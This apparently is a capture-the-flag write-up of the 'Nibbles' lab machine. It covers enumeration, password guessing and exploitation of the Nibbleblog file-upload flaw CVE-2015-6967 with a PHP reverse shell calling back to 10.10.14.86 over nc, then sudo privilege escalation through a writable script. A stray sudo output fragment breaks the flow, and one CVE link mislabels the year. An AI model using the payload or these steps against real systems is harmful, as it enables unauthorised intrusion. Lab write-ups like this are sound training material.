







## Enumeration

### Port Scanning

We start off with a full TCP port scan to identify any exposed services. The scan shows two open ports, 22 (ssh) and 80 (http).



### Web Enumeration

Visiting the target in a browser shows us a simple page that only displays "Hello World!".



However, if we view the source code for the page, we see an interesting comment:

```html
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

This comment suggests there may be an additional directory. If we navigate to `/nibbleblog/`, we can see a site called Nibbles that is powered by "Nibbleblog".



### Directory Brute Forcing

To discover additional files and directories we can run a gobuster scan:



Among the results, the README file stands out. When we open the file, we discover the version of NibbleBlog that is being used for this site.



## Foothold

### CVE-2015-6967

Searching for vulnerabilities for that version of NibbleBlog reveals CVE-2015-6967. This vulnerability is introduced by the "MY Image" plugin, which allows authenticated users to upload any type of files. Uploaded files can be accessed directly at `content/private/plugins/my_image/<file>`.

You can read more about it here [CVE-2025-6967](https://nvd.nist.gov/vuln/detail/CVE-2015-6967).

If we can find a way to log in as an administrator, this will provide us a path to remote code execution.

### Credential Discovery

While enumerating directories, we find the file `/nibbleblog/content/private/users.xml`. This file reveals the username `admin`.

```xml
<users>
<user username="admin">
<id type="integer">0</id>
<session_fail_count type="integer">0</session_fail_count>
<session_date type="integer">1514544131</session_date>
</user>
<blacklist type="string" ip="10.10.10.1">
<date type="integer">1512964659</date>
<fail_count type="integer">1</fail_count>
</blacklist>
</users>
```

Navigating to `/nibbleblog/admin.php` gives us a login page. We can try some default passwords with our username `admin`, such as `admin:admin`, `admin:password`, but they don't work. The word `nibbles` appears on the site multiple times, we test it as a possible password:



Hooray! That worked!



### Exploiting the file upload vulnerability

To exploit the vulnerability we found earlier in the "My Image" plugin, let's create a PHP file we can upload that will give us a reverse shell:

```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.86 9001>/tmp/f"); ?>
```

On our attacking machine, we start a listener: `nc -lvnp 9001`

After we upload the php file through the website, we access the file which gives us a shell as the `nibbles` user.

 NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

If we try and run `monitor.sh` we'll get an error that it doesn't exist.

If we unzip the `personal.zip` file we found in the home directory, we'll find that the`monitor.sh` file and discover that it is world writable.

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -la
total 12
drwxr-xr-x 2 nibbler nibbler 4096 Dec 10  2017 .
drwxr-xr-x 3 nibbler nibbler 4096 Dec 10  2017 ..
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
```

Let's overwrite the file with a basic bash script:

```bash
#!/bin/bash
/bin/bash
```

Make it executable:

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ chmod +x monitor.sh
```

And execute it with sudo:

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
```

Now we have a shell as root and can retrieve the `root.txt` flag.

```bash
root@Nibbles:/home/nibbler/personal/stuff# id
uid=0(root) gid=0(root) groups=0(root)

root@Nibbles:/home/nibbler/personal/stuff# cd /root && ls -la
total 28
drwx------  4 root root 4096 Mar 12  2021 .
drwxr-xr-x 23 root root 4096 Mar 12  2024 ..
-rw-------  1 root root    0 Dec 29  2017 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwx------  2 root root 4096 Dec 10  2017 .cache
drwxr-xr-x  2 root root 4096 Dec 10  2017 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rwx------  1 root root   33 Mar 12  2021 root.txt
```
